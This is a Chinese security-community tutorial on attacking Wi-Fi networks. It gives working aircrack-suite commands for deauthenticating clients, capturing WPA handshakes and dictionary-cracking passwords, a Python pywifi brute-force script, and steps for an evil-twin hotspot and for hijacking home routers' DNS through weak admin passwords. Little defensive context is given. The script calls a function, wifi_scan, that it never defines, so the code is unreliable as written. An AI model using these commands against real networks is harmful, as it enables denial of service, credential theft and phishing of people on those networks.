# 浅析WIFI攻击手法 - 先知社区

浅析WIFI攻击手法

- - -

# 前言

## Deauth攻击

### 什么是Deauth攻击?

Deauth攻击，即解除认证攻击，是一种无线局域网（WLAN）中的拒绝服务攻击，攻击者通过向目标设备发送伪造的解除认证数据包，使目标设备与无线网络断开连接，从而实现对目标设备的控制，原理是因为WiFi管理数据帧没有被加密，导致攻击者可以伪造管理帧，从而让攻击者可以任意发送"取消认证"数据包来强行切断AP与客户端的连接，这种攻击方式不需要破解密码，只需获取目标设备的MAC地址即可实施。

### 影响范围

WIFI协议不为802.11ax版本，即WIFI6以下版本  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240303111520-444d274e-d90c-1.png)  
**当然也有个特例，802.11w协议也可以抵御Deauth攻击**

### 攻击演示

开启网卡监听模式

```plain
airmon-ng  start wlan0
```

数据包捕获

```plain
airodump-ng wlan0
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303111604-5eb3809c-d90c-1.png)

**显示参数详解**  
BSSID: 接入点的 MAC 地址。  
PWR: 信号级别，强信号在-40 左右。平均的为 -55 左右，较弱的则为 -70 左右，-1为超出范围  
Beacons: AP发送的公告报文数量。每个接入点以最低速率每秒发送约 10 个信标，通常可以从很远的地方接收到它们。  
#Data: 捕获的数据包数量（如果是 WEP，则为唯一 IV 计数），包括数据广播包  
#/s: 过去10秒内每秒检测量的数据包  
CH: 通道号（取自信标数据包）。即使未跳频，有时也会捕获来自其他通道的数据包，因为无线电干扰或通道重叠。  
MB: AP支持的最大速度。如果网络启用了 QoS，则在MB速度值后面显示“e” 。  
ENC: 使用的加密算法。 OPN表示不加密。  
CIPHER: 检测到密码。 CCMP、WRAP、TKIP、WEP、WEP40 或 WEP104 之一。  
AUTH: 使用的身份验证协议。MGT（使用单独身份验证服务器的 WPA/WPA2）、SKA（WEP 共享密钥）、PSK （WPA/WPA2 预共享密钥）或 OPN（对 WEP 开放）之一。  
ESSID: 无线网络名称，如果启用了 SSID 隐藏，则可以为空。  
STATION: 每个关联站或搜索要连接的 AP 的站的 MAC 地址。  
Reate: 站的接收速率，其次是发送速率。如果网络启用了 QoS，则在每个速率后显示“e”。  
Lost: 根据序列号计算过去 10 秒内丢失的数据包数量。请参阅下面的注释以获取更详细的说明。  
Frames: 数据帧  
Notes: 有关客户端的其他信息，例如捕获的 EAPOL 或 PMKID。  
Probes: 客户端探测到的 ESSID。这些是客户端当前未连接时尝试连接的网络。

也可以指定抓某个AP的包，这有助于我们精确目标

```plain
airodump-ng -d 68:77:24:65:EE:CF -c 11 wlan0
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303111630-6e21e618-d90c-1.png)

**Aireplay-ng**  
Aireplay-ng提供了多种攻击选项  
\[0\] Deauthentication Attack（断开认证攻击）： 向目标设备发送伪造的Deauthentication帧，迫使目标设备与Wi-Fi网络断开连接。  
\[1\] Fake Authentication（伪造认证攻击）： 伪造认证请求，试图与接入点建立虚假的认证会话。  
\[2\] Interactive Packet Replay（交互式数据包重放攻击）： 攻击者可以选择性地重放已捕获的数据包，以模拟某些网络活动。  
\[3\] ARP Request Replay Attack（ARP请求重放攻击）： 重播捕获的ARP请求，以生成新的数据流量，可能导致捕获握手信息。  
\[4\] KoreK Chopchop Attack（KoreK Chopchop攻击）： 这是一种针对WEP加密的攻击，尝试解密加密的数据包。  
\[5\] Fragmentation Attack（分段攻击）： 通过分段Wi-Fi数据包来尝试破解WEP加密。  
\[6\] Cafe-latte Attack（Cafe-latte攻击）： 一种针对WEP加密的攻击，利用多个不同加密密钥的数据包。  
\[7\] Client-oriented Fragmentation Attack（客户端导向的分段攻击）： 类似于分段攻击，但更专注于向特定的客户端发送分段数据包。  
\[8\] WPA Migration Mode（WPA迁移模式攻击）： 尝试从WPA模式切换到WEP模式。  
\[9\] Injection Test（注入测试）： 向Wi-Fi网络注入数据包，测试网络的安全性和稳定性。

**Deauthentication Attack**  
例如:

```plain
aireplay-ng -0 10 -a DC:33:3D:76:55:10 -c 28:6B:35:26:D8:BF wlan0
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303111703-81d10ca2-d90c-1.png)

● -0表示取消认证  
● 1 是要发送的解除验证数量（如果您愿意，可以发送多个）； 0表示连续发送  
● -a DC:33:3D:76:55:10 是接入点的 MAC 地址  
● -c 28:6B:35:26:D8:BF 是要取消验证的客户端的 MAC 地址；如果省略，则所有客户端都将被取消身份验证  
● wla0 是接口名称  
执行效果  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240303111712-872c0a9e-d90c-1.png)  
取消认证成功，目标不能访问网络，等待wifi重新连接  
当然如果存在多个目标，可以使用不设置-c参数将所有目标取消身份认证，(0)表示连续无限发送

```plain
aireplay-ng -0 0 -a DC:33:3D:76:55:10  wlan0
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303111744-9a66b438-d90c-1.png)  
效果相同  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240303111749-9d6c73d4-d90c-1.png)

**tips：**  
但是针对于移动端，可能默认使用随机MAC地址  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240303111759-a3434814-d90c-1.png)  
这种情况下就不能去指定MAC地址了，只能不设置-c参数将所有目标取消身份认证  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240303111806-a785c622-d90c-1.png)

## Deauth攻击的利用

Deauth攻击除了断网攻击外，还可以有其他利用方式

### 获取WIFI认证握手包

通常监听到wifi握手包可能要花大量时间等待，在这种情况下就可以通过Deauth攻击去让wifi重新认证  
先进行监听

```plain
airodump-ng -d DC:33:3D:76:55:10 -c 1 wlan0 -w test
```

\-w test： 将监听到的数据包写入到当前文件夹，文件名称以test开头  
然后执行Deauth攻击

```plain
aireplay-ng -0 5 -a DC:33:3D:76:55:10 -c  28:6B:35:26:D8:BF wlan0
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303111921-d3fba348-d90c-1.png)  
成功获取握手包，之后可以通过aircrack-ng获取wifi密码

### 同名WIFI钓鱼攻击

**原理**  
这种攻击是创建一个跟目标WIFI相同名称和相同密码的WIFI热点，让受害目标混淆，从而连接上我们的WIFI。**电脑和手机连接WiFi会优先选择信号强且稳定的WiFi**。但是我们的钓鱼热点大多数情况信号会稍弱，而且还要等待目标WIFI断开才有可能连接上我们的热点。在这种情况下我们就可以通过Deauth攻击去破坏目标WIFI的稳定性，从而自动连接上我们的热点，**这个攻击的前提是要知道目标的WIFI密码**。

**攻击演示**  
假设我们已知WIFI CMCC-XUD2密码为12345678  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240303111947-e3c7e6a6-d90c-1.png)  
创建一个同名同密的虚假WIFI  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240303111955-e8486ade-d90c-1.png)  
通过Deauth攻击去破坏目标WIFI的稳定性  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240303112001-ec25f1bc-d90c-1.png)  
成功连接的恶意WIFI  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240303112007-ef475e4e-d90c-1.png)

## 获取WIFI密码

### aircarck-ng

先通过监听获取到握手包

```plain
airodump-ng wlan0 -w test
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303112030-fd3e92b0-d90c-1.png)  
对cap里面的握手包进行暴力破解

```plain
aircrack-ng -a2  -w  passwd_dic.txt test-02.cap
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303112044-05ab4916-d90d-1.png)  
● -a 强制攻击模式（1 = 静态 WEP，2 = WPA/WPA2-PSK）  
选择包含握手包的wifi索引即可  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240303112053-0b0974f0-d90d-1.png)  
也可以指定bssid或是essid

```plain
aircrack-ng -a2 -b DC:33:3D:76:55:10  -w  passwd_dic.txt test-01.cap
```

```plain
aircrack-ng -a2  -e TP-LINK二楼 -w  passwd_dic.txt test-02.cap
```

### 万能钥匙

人尽皆知的软件，目标WIFI存在密钥，连接即可  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240303112121-1bcdf39c-d90d-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240303112129-201ce2c8-d90d-1.png)  
分享WIFI，将二维码截图  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240303112135-23b2943c-d90d-1.png)  
使用浏览器扫描二维码即可得到密码  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240303112139-2610e7f6-d90d-1.png)

### Python-pywifi模块

pywifi是通过直接操作网卡去爆破，这种方法的特点就是不需要握手包，但是出奇的慢。可以用于WPA3加密，如果WIFI是WPA2加密推荐还是通过破解握手包方式获取密码

```plain
import pywifi
import time
from pywifi import const


def scan():
    wifi = pywifi.PyWiFi()
    interface = wifi.interfaces()[0]
    interface.scan()
    for i in range(4):
        time.sleep(1)
        print('\r扫描 WiFi 中（' + str(3 - i), end='）')
    print('\r扫描完成\n' + '-' * 38)
    print('\r{:4}{:6}{}'.format('编号', '信号强度', 'wifi名'))
    bss = interface.scan_results()
    wifi_name_set = set()
    for w in bss:
        wifi_name_and_signal = (100 + w.signal, w.ssid.encode('raw_unicode_escape').decode('utf-8'))
        wifi_name_set.add(wifi_name_and_signal)
    wifi_name_list = list(wifi_name_set)
    wifi_name_list = sorted(wifi_name_list, key=lambda a: a[0], reverse=True)
    num = 0
    while num < len(wifi_name_list):
        print('\r{:<6d}{:<8d}{}'.format(num, wifi_name_list[num][0], wifi_name_list[num][1]))
        num += 1
    print('-' * 38)
    return wifi_name_list


def wifi_password_crack(wifi_name):
    wifi = pywifi.PyWiFi()
    interface = wifi.interfaces()[0]
    wifi_dic_path = input("密码字典路径：")
    with open(wifi_dic_path, 'r') as f:
        flag = False
        for pwd in f:
            pwd = pwd.strip('\n')
            interface.disconnect()
            while interface.status() == 4:
                pass
            profile = pywifi.Profile()
            profile.ssid = wifi_name
            profile.auth = const.AUTH_ALG_OPEN
            profile.akm.append(const.AKM_TYPE_WPA2PSK)
            profile.cipher = const.CIPHER_TYPE_CCMP
            profile.key = pwd
            tmp_profile = interface.add_network_profile(profile)
            interface.connect(tmp_profile)
            start_time = time.time()
            while time.time() - start_time < 1.5:
                if interface.status() == 4:
                    print(f'\rWIFI连接成功！密码为：{pwd}')
                    flag = True
                    break
                else:
                    print(f'\r尝试破解WIFI，当前密码 {pwd} 。', end='')
            interface.remove_network_profile(tmp_profile)
            if flag:
                return


def main():
    exit_flag = 0
    target_num = -1
    while not exit_flag:
        try:
            print('WiFi破解工具'.center(35, '-'))
            wifi_list = wifi_scan()
            choose_exit_flag = 0
            while not choose_exit_flag:
                try:
                    target_num = int(input('请选择你要尝试破解的wifi：'))
                    if target_num in range(len(wifi_list)):
                        # 二次确认
                        while not choose_exit_flag:
                            try:
                                choose = str(input(f'你选择要破解的WiFi名称是：{wifi_list[target_num][1]}，确定吗？（Y/N）'))
                                # 对用户输入进行小写处理，并判断
                                if choose.lower() == 'y':
                                    choose_exit_flag = 1
                                elif choose.lower() == 'n':
                                    break
                                # 处理用户其它字母输入
                                else:
                                    pass
                            except ValueError:
                                pass
                        if choose_exit_flag == 1:
                            break
                        else:
                            pass
                except ValueError:
                    pass
            wifi_password_crack(wifi_list[target_num][1])
            print('-' * 38)
            exit_flag = 1
        except Exception as e:
            print(e)
            raise e

if __name__ == '__main__':
    main()
```

## AP在内网中的利用

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303112202-343837da-d90d-1.png)  
一般来说，AP的地址默认是1或是254，访问80端口进入到管理界面  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240303112208-3785568e-d90d-1.png)  
初始化是没有密码的，家庭wifi密码可能是两种情况，一是弱口令如123456，二是同WIFI密码  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240303112214-3b0708fc-d90d-1.png)  
里面除了可以管理网络设置，还可以通过DHCP去修改dns为我们的恶意DNS，进行钓鱼操作  
